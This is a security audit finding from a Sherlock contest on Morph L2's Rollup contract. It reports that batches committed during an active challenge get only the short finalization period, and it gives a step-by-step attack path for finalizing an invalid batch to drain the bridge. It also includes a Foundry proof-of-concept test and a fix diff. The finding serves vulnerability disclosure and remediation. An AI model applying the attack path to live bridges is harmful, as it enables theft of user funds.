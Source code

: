 Shambolic Banana Barbel

High

# Any sequencer can finalize arbitrary L2 blocks by committing during a challenge period

### Summary

The ability for new batches to be committed with the normal finalization period while the contract is `inChallenge` allows for new batches to be finalized without any challenge period. This can be used to finalize a block with an arbitrary withdrawal root, which allows an attacker to steal all funds from the bridge.

### Root Cause

In `Rollup.sol`, any sequencer can propose a new batch by calling `commitBatch()`. The system then allows [finalizationPeriodSeconds (1 day) for another user to challenge](https://github.com/sherlock-audit/2024-08-morphl2/blob/main/morph/contracts/contracts/l1/rollup/Rollup.sol#L298-L305), which would require them to provide a ZK proof of their state transition. Otherwise, they can finalize the batch and progress the chain.

When a challenge is underway, the `inChallenge` boolean is flipped to true. In this situation, another challenge can not be started until the first is resolved ([see code here](https://github.com/sherlock-audit/2024-08-morphl2/blob/main/morph/contracts/contracts/l1/rollup/Rollup.sol#L368)).
```solidity
function challengeState(uint64 batchIndex) external payable onlyChallenger nonReqRevert whenNotPaused {
    require(!inChallenge, "already in challenge");
    ...
}
```
In order to ensure that this doesn't give us the ability to finalize previous batches, the timestamp at which all previous batches can be finalized is incremented by `proofWindow` (2 days).

As an example, if we have pending batches 100 and 101, and then batch 102 is challenged, then batch 102 has `proofWindow` (2 days) to submit the proof, while batches 100 and 101 are locked for an additional `proofWindow` (2 days), so they can't be finalized until 102 is out of their challenge window.

However, this additional time is only allocated to previously committed batches. Any new batches that are proposed after the challenge are allowed to progress as normal, with only `finalizationPeriodSeconds` (1 day) until they can be finalized.

We therefore have a situation where the subsequent block will be ready to be finalized with no additional challenge period when the currently challenged block is resolved.

### Internal Preconditions

1. `finalizationPeriodSeconds` must be less than `proofWindow` (it explicitly is, because if not, other problems emerge).
2. We must have a moment where there is currently one or less pending batches.

### External Preconditions

None

### Attack Path

1. The attacker proposes a valid batch which we'll call Batch 0. Let's say it started at Day 0, so can be finalized at Day 1.
2. The attacker challenges their own Batch 0, which sets the earliest time the challenger can win to start time (Day 0) plus `proofWindow` (2 days) = Day 2.
3. The attacker immediately commits to Batch 1, which is invalid. For example, Batch 1 could include a withdrawal root that gives the attack call funds in the chain. This will set the finalization time for Batch 1 to Day 1.
4. Nobody can challenge Batch 1, because a challenge is already underway.
5. Once Day 1 passes, Batch 0 can be verified with a valid ZK proof.
6. In the same transaction that Batch 0 is verified, the attacker will be able to call `finalizeBatch()` on Batch 1, and since it is not in a challenge period and the previous batch was finalized, it will be accepted.

### Impact

An attacker can finalize an invalid batch to steal all funds from the bridge.

### PoC

The following test can be added to `Rollup.t.sol` to demonstrate the attack:
```solidity
function testPapa_commitAfterChallenge() external {
    // set accurate proof window and finalization seconds
    hevm.startPrank(multisig);
    rollup.updateProofWindow(2 days);
    rollup.updateFinalizePeriodSeconds(1 days);
    hevm.stopPrank();

    // import genesis batch first
    bytes memory batchHeader0 = new bytes(249);
    assembly {
        mstore(add(batchHeader0, add(0x20, 25)), 1)
        mstore(add(batchHeader0, add(0x20, 57)), 0x010657f37554c781402a22917dee2f75def7ab966d7b770905398eba3c444014)
        mstore(add(batchHeader0, add(0x20, 121)), 1) // postStateRoot
        mstore(add(batchHeader0, add(0x20, 217)), 0) // parentBatchHash
    }
    hevm.prank(multisig);
    rollup.importGenesisBatch(batchHeader0);

    // create and commit batch 1
    hevm.startPrank(alice);

    bytes[] memory chunks = new bytes[](1);
    bytes memory chunk0;
    chunk0 = new bytes(1 + 60);
    chunk0[0] = bytes1(uint8(1)); // one block in this chunk
    chunks[0] = chunk0;

    batchDataInput = IRollup.BatchDataInput(
        0,
        batchHeader0,
        chunks,
        new bytes(0),
        stateRoot,
        stateRoot,
        getTreeRoot()
    );
    hevm.deal(address(0), 10 ether);
    rollup.commitBatch(batchDataInput, batchSignatureInput);
    hevm.stopPrank();

    // challenge batch 1
    hevm.prank(multisig);
    rollup.addChallenger(address(420));

    hevm.startPrank(address(420));
    hevm.deal(address(420), 10 ether);
    rollup.challengeState{value: l1Staking.challengeDeposit()}(1);
    hevm.stopPrank();

    // we now have until end of proof window to prove
    (uint64 batch1StartTime,,,,,) = rollup.challenges(1);
    uint batch1ProofWindowEnd = batch1StartTime + rollup.proofWindow();

    // reconstruct batch header 1 to commit batch 2
    bytes memory batchHeader1 = new bytes(249);
    bytes32 batch0Hash = rollup.committedBatches(0);
    bytes32 withdrawalRootHash = getTreeRoot();
    bytes32 seqSetVerifyHash = keccak256(batchSignatureInput.sequencerSets);
    (bytes32 chunkHash, ) = rollup._commitChunk(chunk0, 0, 0, new bytes(0));
    bytes32 l1DataHash = keccak256(abi.encodePacked(chunkHash));
    assembly {
        mstore8(add(batchHeader1, add(0x20, 8)), 1)
        mstore(add(batchHeader1, add(0x20, 25)), l1DataHash) // data hash
        mstore(add(batchHeader1, add(0x20, 57)), 0x010657f37554c781402a22917dee2f75def7ab966d7b770905398eba3c444014)
        mstore(add(batchHeader1, add(0x20, 89)), 1) // prevStateRoot
        mstore(add(batchHeader1, add(0x20, 121)), 1) // postStateRoot
        mstore(add(batchHeader1, add(0x20, 153)), withdrawalRootHash) // withdrawal root hash
        mstore(add(batchHeader1, add(0x20, 185)), seqSetVerifyHash) // sequencer set verify hash
        mstore(add(batchHeader1, add(0x20, 217)), batch0Hash) // parentBatchHash
    }

    // commit batch 2
    hevm.startPrank(alice);
    batchDataInput = IRollup.BatchDataInput(
        0,
        batchHeader1,
        chunks,
        new bytes(0),
        stateRoot,
        stateRoot,
        getTreeRoot()
    );
    rollup.commitBatch(batchDataInput, batchSignatureInput);
    hevm.stopPrank();

    // the new batch can now be finalized before the proof window ends
    (, uint256 batch2FinalizeTimestamp,,) = rollup.batchDataStore(2);
    console.log(batch1ProofWindowEnd); // 172801
    console.log(batch2FinalizeTimestamp); // 86401

    assert(batch2FinalizeTimestamp < batch1ProofWindowEnd);
}
```

### Mitigation

If we are `inChallenge`, new batches should be created with a `finalizeTimestamp` that is extended by `proofWindow`, instead of the normal value.

```diff
  // storage batch data for challenge status check
+ uint256 finalizeTimestamp = block.timestamp + finalizationPeriodSeconds;
+ if (inChallenge) finalizeTimestamp += proofWindow;

  batchDataStore[_batchIndex] = BatchData(
      block.timestamp,
-     block.timestamp + finalizationPeriodSeconds,
+     finalizeTimestamp,
      _loadL2BlockNumber(batchDataInput.chunks[_chunksLength - 1]),
      // Before BLS is implemented, the accuracy of the sequencer set uploaded by rollup cannot be guaranteed.
      // Therefore, if the batch is successfully challenged, only the submitter will be punished.
      IL1Staking(l1StakingContract).getStakerBitmap(_msgSender()) // => batchSignature.signedSequencersBitmap
);
```
